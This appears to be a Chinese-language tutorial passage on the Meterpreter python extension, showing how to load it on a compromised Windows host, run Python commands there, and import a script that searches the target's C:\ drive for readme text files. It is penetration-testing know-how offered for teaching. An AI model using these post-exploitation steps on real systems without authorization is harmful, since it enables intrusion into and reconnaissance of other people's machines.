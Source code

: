 #### Meterpreter 的扩展

使用 ```load python``` 命令可以在运行了meterpreter的主机上运行python程序。

```shell
meterpreter > load python
Loading extension python...success.
```

```shell
meterpreter > help
...
Python Commands
===============

    Command         Description
    -------         -----------
    python_execute  Execute a python command string
    python_import   Import/run a python file or module
    python_reset    Resets/restarts the Python interpreter
```
```python_execute``` 命令用于执行一个python 命令。

```shell
meterpreter > python_execute "print 'Good morning! It\\'s 5am'"
[+] Content written to stdout:
Good morning! It's 5am
```

你可以保存到一个变量，然后使用 -r 参数打印内容：

```shell
meterpreter > python_execute "import os; cd = os.getcwd()" -r cd
[+] cd = C:\Users\loneferret\Downloads
meterpreter >
```
下面这个文件位于我们机器的root目录下，这段程序搜索C:\下是否存在readmet.txt文件。

```python
#findfiles.py 
import os
for root, dirs, files in os.walk("c://"):
    for file in files:
        if file.endswith(".txt") and file.startswith("readme"):
             print(os.path.join(root, file))
```

为了在目标系统上运行这个文件，我们需要使用```python_import``` 命令，并使用参数 -f 。

```shell
meterpreter > python_import -f /root/findfiles.py
[*] Importing /root/findfiles.py ...
[+] Content written to stdout:
c://Program Files\Ext2Fsd\Documents\readme.txt
c://qemu-0.13.0-windows\patch\readme.txt
c://Users\loneferret\Desktop\IM-v1.9.16.0\readme.txt
```
